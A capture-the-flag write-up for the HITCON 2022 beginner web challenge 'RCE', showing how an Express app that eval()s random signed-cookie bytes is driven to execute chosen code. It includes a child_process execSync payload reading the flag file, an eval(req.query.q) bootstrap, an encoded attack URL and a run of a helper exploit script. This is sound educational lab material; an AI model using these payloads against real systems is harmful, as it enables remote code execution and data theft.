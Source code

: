 # HITCON 2022 - 🎲 RCE

| Tags       | Category | Author                                    |
|------------|----------|-------------------------------------------|
| `beginner` | `web`    | [splitline](https://github.com/splitline) | 

Challenge URL: https://ctf2022.hitcon.org/dashboard/#13

## Challenge:

Hello, I am a Random Code Executor, I can execute r4Nd�M JavaScript code for you ><

Tips:
Have you ever heard of [Infinite monkey theorem](https://en.wikipedia.org/wiki/Infinite_monkey_theorem)? If you click the "RCE!" button enough times you can get the flag

## Solution:

We are presented with a link to a webpage, as well as a [zip file](assets/rce-4bc5d3c73ac0fd8c0b098e9e7ac5a2e1c7a2fcf6.zip). Let's first take a look at the website:

[<img src="assets/screen1.png" alt="screen1.png" width="800"/>](assets/screen1.png)

If we click on the `RCE!` button, the loading bar fills slowly. Afterwards, we are presented with the following message:

[<img src="assets/screen2.png" alt="screen2.png" width="800"/>](assets/screen2.png)

It looks like it is actually executing *random* code.

Inside the [zip file](assets/rce-4bc5d3c73ac0fd8c0b098e9e7ac5a2e1c7a2fcf6.zip), we find the source files for the service. It is an express server with a single [app.js](assets/app.js). Conveniently, a [Dockerfile](assets/Dockerfile) is already provided to run the service, so we build the image and run the app ourselves for testing purposes:

```bash
docker build -t rce-service --build-arg AUTO_DESTROY=9999 .
docker run -d -p 5000:5000 rce-service
```

Now the service is reachable at http://localhost:5000.

Also, if we take a closer look at the [Dockerfile](assets/Dockerfile), we can see where to find the flag. It is written into a file at `/flag-<random_hex_bytes>`. So, our goal is to find a way to read the contents of that.

If we now inspect the [app.js](assets/app.js), we see a small express app. Two routes are registered:

- `/` sends the [index.html](assets/index.html) as well as an empty, signed cookie called `code`.
- `/random` checks the length of the code in that signed cookie. 
    - If it consists of 20 characters or more, it is put into `eval()` and the result is returned. 
    - If it is shorter than that, a random byte is added to the code in the cookie and no code is executed.

So, it uses the signed cookie to execute random code. As the cookie is signed, it is not possible to simply put our own code in the cookie.

Nonetheless, this behavior still enables us to execute any arbitrary code and here is how:

1. Pad the code you want to have executed with '`;`', as it needs to be of length 20. Only then it is executed.
2. Query `/` for an empty cookie
3. Query `/random` with the empty cookie.
    - If it does not contain the first byte of the desired code, repeat this step until it does.
4. Continue querying `/random` with the returned cookie until it contains the code you want to have executed.

One possible payload would be this:
```javascript
require('child_process').execSync('cat /flag-*')
```

There is only one last hurdle with this: The code is executed once it consists of **20 or more** characters. We can't make it any longer. This makes reading the flag file a bit harder as our payload exceeds this.

A solution for this is to provide the payload somewhere else and access it with the code from the cookie, for example in a GET parameter. The code in the cookie then needs to contain something like this: 
```javascript
eval(req.query.q)
```

If we have that prepared in the cookie, we can simply query the following URL and get the flag from the service's response:

http://localhost:5000/random?q=require(%27child_process%27).execSync(%27cat%20/flag-*%27)

Response: `Executing 'eval(req.query.q);;;', result = hitcon{REDACTED}`

I have implemented this in [executor.py](executor.py) which can be used like this[^1].:

```bash
python -u executor.py "http://url.to.instance/" "code to execute"
```

So, for example:

```bash
$ python -u executor.py "http://localhost:5000/" "require('child_process').execSync('cat /flag-*')"
Code to eval: require('child_process').execSync('cat /flag-*')
Generate cookie for: eval(req.query.q);;; (hex: 6576616c287265712e71756572792e71293b3b3b)
|                Progress                |
 ########################################
Executing 'eval(req.query.q);;;', result = hitcon{REDACTED}
```


[^1]: The `-u` is only necessary to have a better output for the (admittedly hacky) process bar.